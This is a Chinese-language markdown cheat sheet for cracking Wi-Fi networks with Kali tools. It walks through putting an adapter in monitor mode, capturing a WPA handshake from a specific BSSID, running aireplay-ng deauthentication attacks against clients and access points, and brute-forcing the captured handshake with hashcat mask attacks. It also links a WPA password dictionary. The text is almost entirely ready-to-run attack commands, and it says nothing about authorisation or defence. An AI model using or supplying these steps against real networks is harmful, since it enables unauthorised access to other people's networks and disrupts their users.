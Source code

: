# Kali WIFI 破解

## 1.监听

```
airmon-ng start wlan0
```

## 2.搜索网络

```
airodump-ng wlan0mon
```

## 3.监听 Wi-Fi 抓包

> -w handshark
>
> 抓包放在 handshark
>
> -c 信道
>
> --bssid 网络 MAC 地址
>
> wlan0mon 监听网络

```
airodump-ng -w handshark -c 4 --bssid 04:20:84:0D:18:29 wlan0mon
```

## 4.ACK 攻击

```
# 攻击客户机
aireplay-ng --deauth 10 -a 74:05:A5:8F:04:B7 -c 74:05:A5:8F:04:B7 wlan0mon --ignore-negative-one

# 攻击网络
aireplay-ng --deauth 0 -a 18:F2:2C:26:30:70 --ignore-negative-one wlan0mon
```

## Hashcat

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
--session 保存进度
--session <session> --restore 恢复进度
```

- 破解 8-11 位数字+小写

```
.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1

.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1 --session 6uG9Cu
```

## 字典

- [Github](https://github.com/conwnet/wpa-dictionary)

```
git clone https://gitclone.com/github.com/conwnet/wpa-dictionary.git
```
